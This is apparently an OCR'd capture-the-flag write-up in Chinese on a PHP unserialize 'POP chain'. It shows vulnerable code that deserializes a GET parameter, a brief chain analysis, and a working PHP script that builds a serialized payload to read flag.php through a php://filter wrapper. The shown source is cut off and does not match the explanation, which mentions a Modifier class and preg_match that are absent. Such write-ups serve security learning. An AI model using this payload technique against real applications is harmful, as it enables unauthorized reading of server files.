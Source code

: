 ```php
  public $source;
  public $str;
  public function __toString(){
    return $this->str->source;
  }
  public function __wakeup(){
    echo $this->source;
  }
}

class Test{
  public $p;
  public function __construct(){
    $this->p = array();
  }
  
  public function __get($key){
    $function = $this->p;
    return $function();
  }
}

if(isset($_GET['pop'])){
  unserialize($_GET['pop']);
}
?>
```



由代码可以知道这是一个pop链的构造，

首先逆向分析，我们最终是希望通过Modifier当中的append方法实现本地文件包含读取文件，回溯到调用它的__invoke，当我们将对象调用为函数时触发,发现在Test类当中的__get方法，再回溯到Show当中的__toString，再回溯到Show当中的__wakeup当中有preg_match可以触发__toString

```php
<?php
ini_set('memory_limit','-1');
class Modifier {
    protected  $var = 'php://filter/read=convert.base64-encode/resource=flag.php';
}

class Show{
    public $source;
    public $str;
    public function __construct($file){
        $this->source = $file;
        $this->str = new Test();
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = new Modifier();
    }
}
$a = new Show('aaa');
$a = new Show($a);
echo urlencode(serialize($a));
```
